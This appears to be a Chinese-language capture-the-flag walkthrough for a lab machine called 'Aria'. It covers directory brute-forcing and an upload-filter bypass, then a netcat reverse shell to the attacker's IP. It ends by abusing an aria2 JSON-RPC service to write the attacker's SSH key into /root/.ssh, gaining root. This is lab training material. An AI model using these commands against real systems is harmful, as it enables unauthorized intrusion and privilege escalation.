










# Aria
nmap扫描

后台跑一下目录
```
gobuster dir -u http://192.168.56.214 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
跑出来文件存放目录/uploads,但是无法访问
80端口存在文件上传

但是无法获取路径
转向1337端口,似乎是一个开发者的debug调试

```
此 Shell 用于协助管理员调试 Aria 服务。
使用特定命令以查看日志或隐藏路径。
注意：网页界面也提供访问入口。
```
查询一下showpath可以看到上传的文件

文件上传点也存在漏洞,只需添加文件头即可绕过

访问

那就获取shell
```
busybox nc 192.168.56.108 5555 -e /bin/bash
```
用户目录获得user的flag
```
flag{user-d13adadc6bbc1391394a5198cba2d1d7}
```
上传linenum脚本检测
root启动了aria2服务
发现本地端口6800,使用curl探测无果
使用ssh服务将端口转发到kali上
```
ssh -fNTR 2222:localhost:6800 cryingtor@192.168.56.108
```
使用nmap扫描

看了下别人的思路,user.txt中有隐写,获取秘密令牌
```
token:maze-sec
```
此时就可以条用此服务
带上认证,尝试获取banner信息
```
curl -s -X POST http://127.0.0.1:6800/jsonrpc -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","id":"1","method":"aria2.getVersion","params":["token:maze-sec"]}'
```


获取root的shell,写入自己的公钥
```
curl -s -X POST http://127.0.0.1:6800/jsonrpc   -H "Content-Type: application/json"   -d '{
    "jsonrpc":"2.0",
    "id":"1",
    "method":"aria2.addUri",
    "params":[
      "token:maze-sec",
      ["http://192.168.56.108:9999/authorized_keys"],
      {"dir":"/root/.ssh/", "out":"authorized_keys"}
    ]
  }'
```

切换root用户ssh连接(用的是root的公钥)

